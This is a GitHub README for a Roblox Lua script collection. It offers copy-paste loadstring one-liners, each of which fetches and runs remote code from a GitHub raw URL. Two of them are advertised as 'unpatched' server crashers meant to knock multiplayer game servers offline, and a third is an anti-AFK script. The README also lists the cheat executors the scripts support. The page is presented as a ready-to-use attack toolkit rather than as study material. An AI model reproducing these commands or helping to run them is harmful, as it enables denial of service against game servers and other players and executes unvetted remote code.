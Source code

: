 # lua-scripts

## Loadstrings

**Chiiickens Crashing GUI** <br />
*A GUI that shows you multiple crashing methods - Please select only one crasher - updating + adding more crashing methods soon* <br />
*Unpatched* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/crashinggui"))()
```

**Modified Swagmode Crasher** <br />
*Lets you Crash the Server using Swagcrash - This Modification is boosting your FPS so the Server will Crash faster* <br />
*If the Swagcrash GUI opens instantly press Start Crash*<br />
*Unpatched* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/modified_swagcrash"))()
```

**AntiAFK** <br />
*Prevents Idle-Kicks* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/antiafk.lua"))()
```


## Supported Executors
- SynapseX (100%)
- ScriptWare (100%)
- Fluxus (100%)
- Krnl (I would not recommend using KRNL)

## Contact 
» Discord (fastest response) <br />
> chiiicken#3436 <br />
